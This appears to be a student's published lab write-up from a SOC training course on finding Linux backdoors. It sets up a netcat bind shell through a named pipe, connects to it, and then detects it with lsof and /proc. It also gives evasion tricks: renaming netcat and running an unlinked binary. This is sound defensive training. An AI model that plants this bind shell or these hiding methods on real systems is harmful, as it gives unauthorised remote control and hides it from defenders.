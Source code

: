 ```yaml
---
{"dg-publish":true,"permalink":"/bhis-antisyphon-and-webinars/black-hills-soc-core/labs/bhis-socc-lab-linux-cli/"}
---
```


The Lab - [IntroClass/LinuxCLI](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
Section Notes - [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Topics/SOCC02 - Linux\|SOCC02 - Linux]]
## Linux Lab
In this lab, we're investigating [[Definitions and Topics/backdoor\|backdoors]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system. In this write-up, I'm going to separate the commands into three different shell sessions; *Server*, *Adversary*, and *Analyst*, 
1. Configure the "server" to listen for commands from the "client" machine
	1. *Server* terminal^[In the real world, these commands would likely be executed in a malware's payload]
		2. Open a Ubuntu shell and log in as Super User
			1. `sudo su -`
		3. Create a FIFO (first in, first out) [[Tool Deep-Dives/Linux/Named Pipe\|backpipe]]
			1. `mknod backpipe p`
				1. [mknod](https://man7.org/linux/man-pages/man2/mknod.2.html) Creates a named pipe called `backpipe`
		4. Start the backpipe
			1. `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
				1. Basically creates a netcat listener that forwards all input through a backpipe and then into a bash session, and then passes the output back to the listener ([MITM](https://ccnadefinitions.com/ccna/20-definitions/mitm-on-path/))?
					1. `0` - standard input
					2. `1` - standard output
					3. `2` - error
				2. `nc` = netcat
					1. `-l 2222` = listen on port *2222*
				3. For the backpipe, don't forget that *0* **<** *backpipe*, and *1* **>** *backpipe*
					1. Where a *pipe* is monodirectional, a [[Tool Deep-Dives/Linux/Named Pipe\|Named Pipe]] can move data in any direction want
						1. netcat to backpipe, backpipe to bash, bash to netcat, etc...
						2. infinite loop
		5. At this point, the shell is chilling; the command, running. We need to send it some commands.
	2. *Adversary* terminal
		1. Get your IP address and establish a connection to the *Server*
			1. `ip a`
			2. `nc <your IP address> 2222`
		2. If you connect correctly, it's going to look like it's chilling too; but let's type some commands
			1. `ls`
			2. `whoami`
			3. ![BHIS-SOCC-lab-LinuxCLI.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI.png)
				1. **NOTE**: In this go-through, I changed the backpipe name to `5FTP` to see how it looked, and I hate it.
		3. At this point, we have demonstrated that we have established [[Definitions and Topics/Remote Shell\|Remote Shell]], and are ready to start looking for clues
2. Investigate from the *Analyst* terminal
	1. In the [lab](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md), they suggest logging in as Root; this is generally a bad idea in the real world (like logging in as domain admin), and we should be able to accomplish most commands just running them with `sudo`.
	2. Look for network connection processes
		1. [[Tool Deep-Dives/Linux/lsof\|lsof]] 
		2. `sudo lsof -i -P`
			1. `-i` is internet connections
			2. `-P` port number only (don't guess the service)
			3. ![BHIS-SOCC-lab-LinuxCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-1.png)
		3. This shows us the services that look strange; we can dig into a specific process with lowercase `-p`
			1. `lsof -p [process ID]`
				1. In my case, `sudo lsof -p 372`
			2. Shows everything associated with that particular PID
			3. ![BHIS-SOCC-lab-LinuxCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-2.png)
	4. Investigate the process files
		2. `cd /proc/[pid]`
		3. `ls`
			1. Everything associated with the memory of the executable *as it resides in memory*
		5. `strings ./exe | less`
			1. Prints out everything that's actively running *in memory*, and we can find netcat below
				1. ![BHIS-SOCC-lab-LinuxCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-5.png)
			2. If there's a program with a manual page, you can scroll through and find it with strings/less

 This is where the lab ends in the GitHub repo, but Mr. Strand had a few more tricks to share.
 
### Other ways to avoid detection
1. Rename netcat to anything else
	1. Note, here we used the [[Tool Deep-Dives/Linux/which\|which]] command to quickly locate the [[Tool Deep-Dives/Netcat\|Netcat]] application file.
	2. ![BHIS-SOCC-lab-LinuxCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-8.png)
		1. I also took the opportunity to create a new backpipe name, `logfile`, which is still suspicious but not the same as `backpipe`, and renamed [[Tool Deep-Dives/Netcat\|Netcat]] to `netlog`
	3. And now look! A happy little `netlog` has an open connection to the internet, and it's just writing to a `logfile`!
		1. ![BHIS-SOCC-lab-LinuxCLI-9.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-9.png)
		2. ![BHIS-SOCC-lab-LinuxCLI-10.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-10.png)
		3. However, if we run `strings ./exe | less` on it, we still find netcat
			1. ![BHIS-SOCC-lab-LinuxCLI-11.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-11.png)
2. Hiding the file on the system
	1. You could use a . to hide it (`.notevil`), but it's crazier to unlink it (i.e. program running in memory disconnected from program in storage)
		1. e.g., the program in storage was deleted
		2. If you delete the file (`rm notevil`) *while it's running*, it will continue to run *in memory*
	4. How to detect?
		1. `lsof +L1`
			1. Shows all system files running without any links^[It also still shows up in regular `lsof -i -P`, but this just highlights anything that is trying to hide and wouldn't be found in traditional file scans.]
			2. ![BHIS-SOCC-lab-LinuxCLI-12.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-12.png)
		2. Once detected, you can `kill` or `pkill` to end the unlinked process, and kill its access
